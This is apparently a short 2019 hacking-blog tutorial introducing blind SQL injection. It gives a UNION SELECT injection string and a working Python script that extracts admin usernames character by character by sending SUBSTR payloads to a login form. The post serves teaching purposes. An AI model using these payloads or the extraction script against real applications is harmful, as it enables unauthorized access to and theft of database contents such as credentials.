 ```yaml
---
layout: post
title: "Blind SQL Injection - A brief introduction"
date: 2019-10-18 +0100
categories: hacking
---
```

[SQL Injection](https://en.wikipedia.org/wiki/SQL_injection) can sometimes be as simple as `'0 UNION SELECT * FROM users;--` and suddenly you end up with a dump of the users table in a web application. But what happens when your output isn't reflected back to you? Can we still exploit the unvalidated input?

### Blind SQL Injection
Utilizing a SQL Injection where we can't get the output of the SQL Query is just as potent and dangerous, as one where the output is reflected back to the attacker.

Instead of querying directly, we find a way to get a binary result, e.g. the website could output an error if a user is not found, and none otherwise. That example could allow us to enumerate names, addresses, usernames, or even passwords.

### Leaking usernames from an `admins` table

Like every SQL Injection is unique and must be tailored to the target application, so is the case for Blind SQL Injection.

In this example we can `post` a `username` and `password` field to a website vulnerable to a SQL Injection, however, being a login page, it will only log us in and not output the result of the SQL query.

So how does the login code work in the web application? It most probably fetches a username and password from the database, and compares them with the fields from the `post`. For this example, assume that the password will not be hashed, as this would break this particular example.

{% highlight python %}
#!/usr/bin/python

import requests
import string
import sys

url = "http://vulnerable.com/login"

# Let's set a max on 14 characters
USER_LENGTH_MAX = 14 

def payload_pos(i):
    return "' UNION SELECT SUBSTR(username,"+str(i)+",1) FROM admins; --"


user = ""
i = 1
while i < USER_LENGTH_MAX:
    for c in string.printable:
        if c == '\n' or c == "\\" or c == "'" or c == "%":
           continue 
        sys.stdout.write('\rTrying ' + c)
        sys.stdout.flush()
        boom = {"username": payload_pos(i), 
                "password": c
                }
        res = requests.post(url, data=boom)
        if "Logged in!" in res.text:
            user = user + str(c)
            print("\nfound: {}".format(user))
            i = i + 1
            break

{% endhighlight %}

As you can see, our payload `boom` consists of the two fields `username` and `password`. We then iterate all possible printable characters in the username, and get the web application to compare the result for us. If we get logged in, then we found a matching character. 

By scripting over a simple binary output, logged in, or not logged in, we can extract arbitrary data from the database. 